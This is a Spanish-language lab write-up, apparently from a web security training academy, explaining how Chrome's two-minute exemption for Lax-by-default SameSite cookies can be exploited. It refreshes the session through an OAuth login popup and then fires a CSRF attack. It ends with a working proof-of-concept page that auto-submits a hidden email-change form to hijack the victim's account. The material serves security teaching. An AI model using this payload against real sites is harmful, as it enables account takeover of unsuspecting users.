







Las cookies con restricciones Lax SameSite normalmente no se envían en ninguna solicitud POST entre sitios, pero hay algunas excepciones.

Como se ha mencionado anteriormente, si un sitio web no incluye un atributo SameSite al establecer una cookie, Chrome aplica automáticamente las restricciones Lax de forma predeterminada. Sin embargo, para evitar romper los mecanismos de inicio de sesión único (SSO), en realidad no aplica estas restricciones durante los primeros 120 segundos en las solicitudes POST de nivel superior. Como resultado, hay una ventana de dos minutos en la que los usuarios pueden ser susceptibles a ataques cross-site.

Esta ventana de dos minutos no se aplica a las cookies que se establecieron explícitamente con el atributo SameSite=Lax.

Resulta poco práctico intentar programar el ataque para que se produzca dentro de esta breve ventana. Por otro lado, si puedes encontrar un gadget en el sitio que te permita forzar a la víctima a recibir una nueva cookie de sesión, puedes refrescar preventivamente su cookie antes de seguir con el ataque principal. Por ejemplo, completar un flujo de inicio de sesión basado en OAuth puede dar lugar a una nueva sesión cada vez, ya que el servicio OAuth no sabe necesariamente si el usuario sigue conectado al sitio objetivo.

Para activar la actualización de cookies sin que la víctima tenga que volver a iniciar sesión manualmente, necesitas utilizar una navegación de nivel superior, lo que garantiza que se incluyan las cookies asociadas a su sesión OAuth actual. Esto plantea un reto adicional porque entonces necesitas redirigir al usuario de vuelta a tu sitio para que puedas lanzar el ataque CSRF.

Alternativamente, puedes activar la actualización de cookies desde una nueva pestaña para que el navegador no abandone la página antes de que puedas realizar el ataque final. Un pequeño inconveniente con este enfoque es que los navegadores bloquean las pestañas emergentes a menos que se abran mediante una interacción manual. Por ejemplo, la siguiente ventana emergente será bloqueada por el navegador por defecto:

```c
window.open('https://vulnerable-website.com/login/sso');
```

Para evitar esto, puede envolver la declaración en un controlador de eventos onclick de la siguiente manera:

```c
window.onclick = () => {
    window.open('https://vulnerable-website.com/login/sso');
}
```

De esta forma, el método window.open() sólo se invoca cuando el usuario hace clic en algún lugar de la página.

## LAB 




## LAB

Al iniciar el laboratorio nos encontraremos con el siguiente sitio web.



Al revisar la solicitudes, podemos observar que en `/` nos otorga una cookie con el sameSite por defecto (`Lax`)




al iniciar sesión nos llevara a otro sitio web, que es `/social-login` 



Luego de ingresar las credenciales observamos otro panel para la autorización de una cuenta social



Ahora analicemos la opción de cambio de email



Vemos en este aparado del código se encuentra la solicitud para el cambio/actualización de email

```html
<div id=account-content>
                        <p>Your username is: wiener</p>
                        <p>Your email is: <span id="user-email">pwned@evil.com</span></p>
                        <form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
                            <label>Email</label>
                            <input required type="email" name="email" value="">
                            <button class='button' type='submit'> Update email </button>
                        </form>
                    </div>
```

Además de que no se tienen ninguna protección de CSRF 



Con la información anterior, podemos crear una carga útil CSRF para actualizar la dirección de correo electrónico de la víctima.

Pero primero, necesitamos saber una cosa: podemos activar la actualización de cookies desde una nueva pestaña para que el navegador no abandone la página antes de que puedas realizar el ataque final. Un pequeño inconveniente con este enfoque es que los navegadores bloquean las pestañas emergentes a menos que se abran mediante una interacción manual.

Por ejemplo, la siguiente ventana emergente será bloqueada por defecto por el navegador:

```c
window.open('https://vulnerable-website.com/login/sso');
```

Para evitar esto, puede envolver la declaración en un controlador de eventos onclick de la siguiente manera:

```html
window.onclick = () => { 
    window.open('https://vulnerable-website.com/login/sso');
}
```

De esta forma, el método window.open() sólo se invoca cuando el usuario hace clic en algún lugar de la página.

Por lo que ahora, vamos a construir nuestra POC


```html
<html>
    <head>
        <title>POC</title>
    </head>
    <body>
        <form action="https://0a4d00cf03c4376a804eeec4003c0061.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned2@evil.com">
        </form>
        <p>Click Here!</p>
        <script>
            window.onclick = () => {
                window.open('https://0a4d00cf03c4376a804eeec4003c0061.web-security-academy.net/socal-login')
                setTimeout(updateEmail, 3000);
            }

            function updateEmail() {
                document.getElementsByTagName('form')[0].submit();
            }
        </script>
    </body>
</html>
```

Guardamos y enviamos a la victima.